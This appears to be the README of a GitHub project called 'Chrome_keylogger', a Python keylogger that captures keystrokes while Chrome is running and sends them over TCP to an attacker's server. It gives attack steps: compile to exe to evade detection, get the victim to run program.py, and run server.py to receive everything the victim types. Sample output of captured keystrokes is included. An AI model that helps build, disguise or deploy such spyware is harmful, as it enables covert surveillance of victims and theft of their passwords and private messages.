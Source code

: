 # Chrome_keylogger
A keylogger that starts logging when chrome is running. This malware will send the keystrokes from a TCP client back to the malicious TCP server


# How to attack:
First of all, you can edit the code a bit and compile all the scripts into exe for less detection.

Follow these steps:
  1- The victim must run program.py, when the file is ran, the keylogger and the TCP Client will start too.
  2- The attacker must run server.py then bind his/her IP and port.
  3- You will start receiving everything the victim types.

# Deeper demonstration:

Attacker:
    python3 server.py
    
    Output:
    IP: type_your_ip_here
    Port: 8080
    Client (client_ip) connected.
    
    2020-10-12 22:05:35,120: 'h'
    2020-10-12 22:05:35,390: 'i'
    2020-10-12 22:05:36,258: Key.space
    2020-10-12 22:05:36,631: 't'
    2020-10-12 22:05:36,806: 'h'
    2020-10-12 22:05:36,963: 'e'
    2020-10-12 22:05:37,080: 'r'
    2020-10-12 22:05:37,168: 'e'
Victim:
    python3 program.py 
    
